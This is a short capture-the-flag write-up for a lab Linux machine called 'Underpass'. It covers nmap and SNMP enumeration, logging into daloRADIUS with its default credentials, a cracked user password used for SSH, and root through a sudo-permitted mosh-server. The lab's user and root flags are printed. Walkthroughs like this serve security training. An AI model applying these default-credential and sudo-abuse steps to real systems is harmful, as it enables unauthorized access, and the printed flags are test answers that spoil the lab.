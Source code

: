 Underpass  - Easy Linux machine 
================================

nmap enumeration:
-----------------
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works

snmpbulk walk enumeration:
---------------------------
[Username] : steve@underpass.htb

--> UnDerPass.htb is the only daloradius server in the basin!
--> Nevada, U.S.A. but not Vegas

daloradius server - A free open source RADIUS (Remote Authentication Dial-In User Service) server.

underpass.htb is using the daloradius server. Since daloradius is a open source we can find the where login page located using the github.

https://github.com/lirantal/daloradius/blob/master/app/operators/login.php

http://underpass.htb/daloradius/app/operators/login.php --> login page 

default creds for daloradius:
[Username] : adminstrator 
[Password] : radius 

get one user inside the user list panel:
[Username] : svcMosh 
[HashPass] : 412DD4759978ACFCC81DEAB01B382403
[Password] : underwaterfriends 

ssh shell got with the above creds:

user.txt: 4447689b62e3fd8fbf4a1b81d3406790
==========================================

previlege escalation:
---------------------
$ sudo -l

Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

mosh-server --> server side for the mosh remote terminal application. default port between 60000 - 61000 


running mosh-server on the target --> sudo mosh-server new  ==> give the port 60001 and the MOSH_KEY=jLVaOnjZu25KLdeX04Z+gw

on my machine --> mosh-client ip port MOSH_KEY 

gives the root shell 

root.txt : 4b53ce32d4ec5b75358e4a63501723dc
============================================



